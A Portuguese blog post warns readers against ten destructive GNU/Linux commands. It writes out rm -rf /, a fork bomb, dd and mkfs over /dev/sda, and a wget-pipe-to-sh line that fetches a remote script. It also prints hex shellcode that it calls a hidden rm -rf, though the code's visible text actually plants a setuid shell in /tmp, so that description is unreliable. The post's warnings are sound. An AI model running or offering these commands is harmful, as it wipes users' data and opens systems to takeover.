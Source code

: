 ```yaml
---
layout: post
title: "10 comandos perigosos que você nunca deve executar no GNU/Linux"
date: '2015-06-06T09:49:00.001-07:00'
image: '/assets/img/linux/forkbomb.jpg'
description: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
main-class: 'linux'
tags:
- Linux
- GNU
- Terminal
- Comandos
introduction: "A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso."
---
```


![Fork Bomb](/assets/img/linux/forkbomb.jpg)

A linha de comando no GNU/Linux é muito produtiva, útil e interessante, no entanto, às vezes pode ser muito perigoso, principalmente se tratando do usuário root, ou do usuário que pode assumir a maioria dos seus privilégios, o sudo. É necessário saber exatamente o que está fazendo. Esse artigo serve para alertá-los sobre alguns comandos do terminal, para não executá-los.


# 1. rm -rf

O comando rm -rf é um dos maneira mais rápida de eliminar uma pasta e seu conteúdo. Mas um pouco de erro de digitação ou ignorância pode resultar em danos no sistema irrecuperáveis. Algumas das opções usadas com o comando rm é: 

{% highlight bash %}
rm -rf
{% endhighlight %}

comando rm no Linux é usado para apagar arquivos.

* rm -r comando exclui a pasta de forma recursiva, mesmo a pasta vazia.
* comando rm -f remove "apenas ler o arquivo 'sem perguntar.
* rm-rf / : Força eliminação de tudo no diretório raiz.
* rm -rf * : Força eliminação de tudo no atual diretório diretório / trabalho.
* rm -rf : Força supressão do atual diretórios e subdiretórios.

Por isso, tenha cuidado quando você está executando o comando rm -rf. Para evitar um acidente de excluir arquivos com o comando 'rm', crie um alias de comando 'rm' como 'rm -i' ".bashrc", ele irá pedir-lhe para confirmar cada exclusão.

# 2. :(){:|:&};:

{% highlight bash %}
:(){:|:&};:
{% endhighlight %}

A descrição acima é o fork bomb. Ele opera através da definição de uma função chamada ':', que se chama duas vezes, uma no primeiro plano e uma vez no fundo. Ele mantém em execução novamente e novamente até que o sistema congela.


# 3. comando > /dev/sda

O comando acima escreve a saída do 'comando' no bloco /dev/sda. O comando acima escreve dados brutos e todos os arquivos no bloco serão substituídos por dados brutos, resultando em perda total dos dados no bloco.


# 4. mv diretorio /dev/null

Tudo movido para /dev/null, desaparece do sistema.

{% highlight bash %}
mv /home/user/* /dev/null
{% endhighlight %}

# 5. wget http://malicious_source -O- | sh

O comando acima irá baixar um script a partir de uma fonte mal-intencionada e, em seguida, executá-lo. Comando wget irá baixar o script e sh irá executar o script baixado.

> Nota: Você deve ser muito consciente da fonte de onde você está baixando pacotes e scripts. Só use esses scripts/aplicações que é baixado de uma fonte confiável.

# 6. mkfs.ext3 /dev/sda

{% highlight bash %}
mkfs.ext3 /dev/sda
{% endhighlight %}

O comando acima irá danificar os blocos do seu HD, e formatá-lo.

# 7. > arquivo

{% highlight bash %}
echo "Nada" > arquivo.conf
{% endhighlight %}

Qual arquivo importante do sistema, será substituído com esse redirecionador.

A forma exata de usá-lo é criar um arquivo backup:

{% highlight bash %}
cp arquivo arquivo.bkp
{% endhighlight %}

e redirecionar com 2 "maiores que", >> , se necessário, exemplo para um source.list:

{% highlight bash %}
echo "link pacote deb" >> /etc/apt/source.list
{% endhighlight %}


# 8. ^foo^bar

Este comando é usado para editar o comando anterior sem a necessidade de digitar novamente todo o comando novamente. Mas isso realmente pode ser problemático se você não tomou o risco de verificar cuidadosamente a mudança no comando original usando ^ ^ foo comando bar.


# 9. dd if=/dev/random of=/dev/sda

{% highlight bash %}
dd if=/dev/random of=/dev/sda
{% endhighlight %}

O comando acima irá acabar com como */dev/sda* e escrever dados aleatórios para o bloco. Claro! Seu sistema seria deixado na fase inconsistente e irrecuperável.


# 10. Comando invisível

O comando abaixo nada mais é que o primeiro comando deste artigo (rm-rf). Aqui os códigos estão escondidos em hex para que um usuário ignorante pode ser enganado. Executando o código abaixo em seu terminal e limpar sua partição raiz.

Este comando aqui mostra que a ameaça pode ser escondida e normalmente não detectável, às vezes. Você deve estar ciente de que você está fazendo e qual seria o resultado. Não compilar/rodar códigos a partir de uma fonte desconhecida.


{% highlight bash %}
 char esp[] __attribute__ ((section(“.text”))) /* e.s.p
 release */
 = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
 “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
 “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
 “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
 “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
 “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
 “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
 “cp -p /bin/sh /tmp/.beyond; chmod 4755
 /tmp/.beyond;”;
{% endhighlight %}

Veja um vídeo bem legal onde resume os 5 mais perigosos

# [Clique Aqui para Ver o Vídeo](https://www.youtube.com/watch?v=-mDqHdIOjJM)


## NÃO EXECUTE NENHUM COMANDO ACIMA, CASO QUEIRA TESTÁ-LOS, UTILIZE UM A MÁQUINA VIRTUAL PARA TESTES

<sub>Via: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/</sub>
